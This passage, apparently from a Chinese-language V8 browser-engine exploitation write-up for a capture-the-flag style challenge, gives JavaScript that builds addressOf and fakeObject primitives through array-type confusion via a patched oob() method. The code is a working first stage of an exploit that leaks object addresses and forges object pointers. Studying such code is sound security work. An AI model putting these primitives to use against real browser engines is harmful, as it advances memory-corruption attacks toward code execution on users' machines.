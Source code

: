 （1）构造addressOf和fakeObject原语

- addressOf 原语用于泄露任意传入的object对象地址。
- fakeObject 原语将传入的地址解析成一个object指针返回。

```javascript
var buf = new ArrayBuffer(16)
var float64 = new Float64Array(buf)
var bigUint64 = new BigUint64Array(buf)

function f2i(f) // 将浮点数转成整数
{
	float64[0] = f;
	return bigUint64[0];
}

function i2f(i) // 将整数转成浮点数
{
	bigUint64[0] = i;
	return float64[0];
}
//两个数组操作同一片内存，实现64位浮点数与64位整数之间的转换
function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

var obj = {"a": 1};
var obj_array = [obj];
var float_array = [1.1];

var obj_array_map = obj_array.oob();
var float_array_map = float_array.oob();

function addressOf(obj) // obj -> float addr
{
	obj_array[0] = obj;
	obj_array.oob(float_array_map);// 将obj_array类型变成float型
	
	var object_addr = obj_array[0];// 这样就会将第一个对象地址当成浮点数输出
	obj_array.oob(obj_array_map); // 将obj_array类型复原
	return f2i(object_addr)-1n; // 得到的是指针，所以需要减1才是真实地址
}
//如果未将obj_array类型变成float型，直接输出，输出的是 0x7ff7ffffffffffff。
function fakeObject(addr) // float addr -> obj
{
	var obj_addr = i2f(addr + 1n); // +1变成指针
	float_array[0] = obj_addr;     // 将地址存入float_array[0]，并修改float_array类型为obj array
	float_array.oob(obj_array_map);

	var fake_object = float_array[0];//这样就会将传入的地址当成是一个对象的地址
	float_array.oob(float_array_map); // 将数组类型还原
	return fake_object;
}
```
